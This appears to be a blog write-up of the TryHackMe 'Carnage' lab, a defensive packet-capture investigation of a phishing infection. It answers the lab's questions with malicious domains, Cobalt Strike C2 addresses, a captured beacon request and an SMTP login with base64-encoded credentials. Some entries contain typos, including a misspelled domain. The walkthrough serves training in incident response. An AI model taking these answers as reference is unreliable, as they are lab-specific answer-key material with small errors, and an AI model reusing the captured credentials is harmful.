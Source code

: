 ```yaml
---
title: TryHackMe -Carnage
author: Bonface
date: 2025-06-18 00:00:00 +0000
categories:
  - TryHackMe
tags:
  - TryHackMe
image:
  path: /assets/img/TryHackMe/Carnage/Carnage.png
  alt: Carnage.htb
---
```


<iframe src="https://tryhackme.com/api/v2/badges/public-profile?userPublicId=2274474" style='border:none;'></iframe>

---

The challenge starts off by explaining to us how a user in  an organization is tricked to opening a document from a phishing email and enables content. But the SOC team are immediately alerted of the workstation making suspicious connections outbound.   
A pcap is capture and our task is to : `Investigate the packet capture and uncover the malicious activities.`  

We shall use the questions to guide us through.  

**1. What was the date and time for the first HTTP connection to the malicious IP?**  
To answer this we start by filtering the http packets and the packet that comes first will be the first request sent.  
The  issue is the time and date format and to fix it we use the `View` tab and go to `Time and Display Format`   

```
yyyy-mm-dd hh:mm:ss
2021-09-24 16:44:38
```

**2.What is the name of the zip file that was downloaded?**  
Following the http request we get the client was requesting for a document using a `Get` request.  
The file is : `documents.zip`    

**3.What was the domain hosting the malicious zip file?**  
Still on the http request we see the host the client is communicating to .  
The domain is : `attirenepal.com`  

**4.Without downloading the file, what is the name of the file in the zip file?**  
Since we are instructed to retrieve the file name without downloading the zip, will do try zipping a file and see how i can retrieve the file name and with that knowledge we can get back to the rest.  
```sh
# create a demo file
touch file.php

# zip the file
zip hello file.php
  adding: file.php (stored 0%)

# We get this
ls
file.php  hello.zip

# try retreiving the file name
strings hello.zip 
file.phpUT	
Khux
file.phpUT
Khux

```

From the demo we see we can retrieve the file name from the first line of strings in the zip file.  
The file name is : `chart-1530076591.xls`  

**5.What is the name of the webserver of the malicious IP from which the zip file was downloaded?**  
We can easily read this from http response from the server    
```
Server : LiteSpeed
```

**6.What is the version of the webserver from the previous question?**  
Similar to the previous challenge we can get the version from the http headers of the servers response.  
```
x-powered-by : PHP/7.2.34
```

**7. Malicious files were downloaded to the victim host from multiple domains. What were the three domains involved with this activity?**  
Hint : `Check HTTPS traffic. Narrow down the timeframe from 16:45:11 to 16:45:30.`    

Filtering within a time range:  
You can combine frame.time with comparison operators >=, <=, <, >, == to filter for packets within a specific time interval.  
For instance :   
`frame.time >= "Feb 2, 2024 08:40:00" && frame.time <= "Feb 2, 2024 08:42:42"`   
will filter packets between those two times.  

We craft our own from the hints timeline.  
```
frame.time >= "2021-09-24 16:45:11" && frame.time<= "2021-09-24 16:45:30"
```

With this time frame we get a couple of packets, we shall ignore those from the same network.  
Here are the domains we get and their ip addresses :   
```
finejewels.com.au : 148.72.192.206
thietbiagt.com : 210.245.90.247
new.americold.com : 148.72.53.144

finejewel.com.au,thietbiagt.com,new.americold.com

```


**8. Which certificate authority issued the SSL certificate to the first domain from the previous question?**  
When following the http stream of the `finjewels.com.ay` we see it reaching out to a repository `http://certs.godaddy.com/repository/1301..U...` which is `Go Daddy Secure Certificate Authority`.  
The certificate authority will be `godaddy`   

**9. What are the two IP addresses of the Cobalt Strike servers? Use VirusTotal (the Community tab) to confirm if IPs are identified as Cobalt Strike C2 servers. (answer format: enter the IP addresses in sequential order)**  
For this we can filter all the ip addresses by going to the `Statistics` tab and selecting  `conversations` .   
Will admit at this point i was completely stuck, untill i started checking the community tab on [virus total](185.106.96.158)
And this are the ips i got.  
```
185.106.96.158
185.125.204.174

```

**10. What is the Host header for the first Cobalt Strike IP address from the previous question?**  
Still on the community tab we get the answer to this question : `ocsp.verisign.com`

**11. What is the domain name for the first IP address of the Cobalt Strike server? You may use VirusTotal to confirm if it's the Cobalt Strike server (check the Community tab).**  

Also from the virus total[community](https://www.virustotal.com/gui/ip-address/185.106.96.158/community) tab we get the domain name .

**12. What is the domain name of the second Cobalt Strike server IP?  You may use VirusTotal to confirm if it's the Cobalt Strike server (check the Community tab).**  

Similar to the previous one we get the domain name from the virus total [community](https://www.virustotal.com/gui/ip-address/185.125.204.174/community) 

**13. What is the domain name of the post-infection traffic?**  

We use the wireshark filter : `http.request.method == POST` an follow the http requests from the ip : `10.9.23.102` to `208.91.128.6`

**14. What are the first eleven characters that the victim host sends out to the malicious domain involved in the post-infection traffic?**  

We go on to the first post request and follow the http traffic to get :
```
POST /zLIisQRWZI9/OQsaDixzHTgtfjMcGypGenpldWF5eWV9f3k= HTTP/1.1
Host: maldivehost.net
Content-Length: 112

Dw8YBxsEGmYFAAEJfR4NQkMmLTYqZDk5KyQmOyRGQglxEBo4Lzk/EyYrMi1hOT8vIyM7IhcNPzsOKjguFxgkLSIiJCxFRgwFAgIIDQUZGBoFD0JF

```

the first 11 characters are straight forward.

**15. What was the length for the first packet sent out to the C2 server?**  
We go back to wireshark and get the length of the packet we were following.

**16. What was the Server header for the malicious domain from the previous question?**  
For this we check the headers of the response from the server.
```
HTTP/1.1 200 OK
Date: Fri, 24 Sep 2021 16:46:15 GMT
Server: Apache/2.4.49 (cPanel) OpenSSL/1.1.1l mod_bwlimited/1.4
X-Powered-By: PHP/5.6.40
Content-Length: 302
Strict-Transport-Security: ...max-age=15552000...
Connection: close
Content-Type: text/html; charset=UTF-8
```

**17. The malware used an API to check for the IP address of the victim’s machine. What was the date and time when the DNS query for the IP check domain occurred? (answer format: yyyy-mm-dd hh:mm:ss UTC)**  
For this we are looking for an `api` in dns query lets try creating a filter for that or just use the search option.

```
2021-09-24 17:00:04

```

**18. What was the domain in the DNS query from the previous question?**  
This is straight forward from the previous challenge.

**19. Looks like there was some malicious spam (malspam) activity going on. What was the first MAIL FROM address observed in the traffic?**  
Following the tcp stream of the smtp protocal we get : 
```sh
220 mail.mailfa.com

EHLO localhost

250-mail.mailfa.com
250-SIZE 30000000
250 AUTH LOGIN

AUTH LOGIN

334 VXNlcm5hbWU6

ZmFyc2hpbkBtYWlsZmEuY29t

334 UGFzc3dvcmQ6

ZGluYW1pdA==

235 authenticated.

MAIL FROM:<farshin@mailfa.com>

550 Your SMTP Service is disable please check by your mailservice provider.
```

we get the user who sent the email.

**20. How many packets were observed for the SMTP traffic?**  
This was a nice bonus for we just needed to filter `smtp` and get the number of packets.

